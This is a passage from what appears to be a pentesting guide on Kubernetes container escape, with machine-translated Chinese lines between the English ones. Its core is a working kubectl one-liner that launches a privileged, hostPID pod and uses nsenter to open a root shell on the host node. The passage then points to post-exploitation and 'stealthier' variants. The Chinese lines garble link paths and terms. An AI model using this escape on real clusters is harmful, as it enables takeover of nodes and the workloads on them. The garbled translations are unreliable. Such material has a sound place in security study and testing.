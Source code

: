 One-liner from [this tweet](https://twitter.com/mauilion/status/1129468485480751104) and with some additions:

[this Tweet]（https://twitter.com/mauilion/status/1129468485480751104）的单线插件（

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Now that you can escape to the node check post-exploitation techniques in:

现在，您可以逃脱到节点检查后探索后的技术：

{% content-ref url="../../../pentesting/pentesting-kubernetes/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../../pentesting/pentesting-kubernetes/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

#### Stealth

####隐身

You probably want to be **stealthier**, in the following pages you can see what you would be able to access if you create a pod only enabling some of the mentioned privileges in the previous template:

您可能想成为**隐身**，在以下页面中，您可以看到如果创建POD仅启用了上一个模板中提到的某些特权，则可以看到可以访问的内容：

* [**Privileged + hostPID**](../../../linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/#privileged-+-hostpid)

*[**特权 + hostpid **]（../../../ linux-hardening/privilege-escalation/docker-breakout/docker-break-breakout-privilege-privilege-escalation-privilege-escalation/＃privilegilege- +  -  hostpid）
* [**Privileged only**](../../../linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/#privileged)

*[**唯一的**]（../../../ linux-hardening/privilege-escalation/docker-breakout/docker-break-breakout-privilege-privilege-eScalation/＃特权）
* [**hostPath**](../../../linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/#arbitrary-mounts)

*[**主持人**]（../../../ linux-hardening/privilege-escalation/docker-breakout/docker-break-breakout-privilege-privilege-scalation/＃nutyary mounts）
* [**hostPID**](../../../linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/#hostpid)

*[** hostpid **]（../../../ linux-hardening/privilege-escalation/docker-breakout/docker-break-breakout-privilege-privilege-eScalation/＃hostpid）
* [**hostNetwork**](../../../linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/#hostnetwork)

*[** hostnetwork **]（../../../ linux-hardening/privilege-eScalation/docker-breakout/docker-breakout-privilege-privilege-eScalation/＃hostnetwork）
* [**hostIPC**](../../../linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/#hostipc)
